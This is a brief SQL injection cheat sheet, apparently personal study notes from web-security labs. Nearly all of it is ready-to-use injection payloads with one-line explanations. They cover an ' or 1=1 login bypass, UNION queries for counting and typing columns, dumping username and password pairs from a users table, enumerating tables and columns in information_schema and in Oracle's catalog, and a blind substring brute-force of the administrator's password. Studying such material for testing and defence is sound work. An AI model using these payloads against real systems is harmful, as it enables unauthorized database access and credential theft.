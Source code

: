 `asd' or 1 = 1;#`  

`asd' UNION SELECT NULL,NULL,NULL;#` - to define column number (each null for a column, will error until null count will not match column count, it can be `---` instead of `#`)

`asd' UNION SELECT NULL, 'a', NULL;#` - to find string columns, if there is no error after this query then second('a') column returns string values

`asd' UNION SELECT * FROM table;#` - to retrieve info from other tables
`'UNION+SELECT+NULL,username||':'||password+FROM+users--` - select in single column

`UNION+SELECT+NULL,table_name+FROM+information_schema.tables--` - get tables
`UNION+SELECT+NULL,column_name+FROM+information_schema.columns+WHERE+table_name+=+'users_wmfnpt'--` - get columns

`'UNION+SELECT+NULL,table_name+FROM+all_tables--` - get tables from oracle db
`'UNION+SELECT+NULL,column_name+FROM+all_tab_columns+WHERE+table_name='USERS_LOSBQQ'--` - get columns from oracle db

`'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,1,1)='b'` - blind sql password bruteforce
![[SQLCheatSheet1.png]]
![[SQLCheatSheet2.png]]
![[SQLCheatSheet3.png]]
![[SQLCheatSheet4.png]]
![[SQLCheatSheet5.png]]
![[SQLCheatSheet6.png]]
